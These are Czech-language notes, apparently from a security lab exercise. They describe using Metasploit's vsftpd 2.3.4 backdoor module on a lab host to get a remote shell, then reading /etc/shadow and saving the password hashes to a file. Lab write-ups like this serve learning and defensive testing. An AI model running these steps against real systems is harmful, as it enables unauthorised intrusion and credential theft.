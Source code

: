 v této sekci se zaměříme na exploit následující FTP portu

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4

1. msfconsole  - pro otevření konzole metasploit
2. search vsftpd - vyhledám modul na tu slabinu
3. exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution - vyberu tento modul, verze se shoduje, rank je excellent
4. use (modulu)
5. show options (nastavení modulu)
6. musím nastavit RHOSTS (adresu cíle, cílové zařízení)
7. set HOST 10.0.0.52 - takto to nastavím
8. kontrola RPORT s tím z nmap
9. run --- Found shell.
[*] Command shell session 1 opened (10.0.0.53:45827 -> 10.0.0.52:6200) at 2025-05-24 14:27:43 -0500
10. jsem uvnitř


ls -l = -l zjistím jestli to jsou složky nebo soubory

etc/shadow --> cat shadow obsahuje uzivatele a jejich hesla v hash formě

uložil jsem je ho passwords.txt




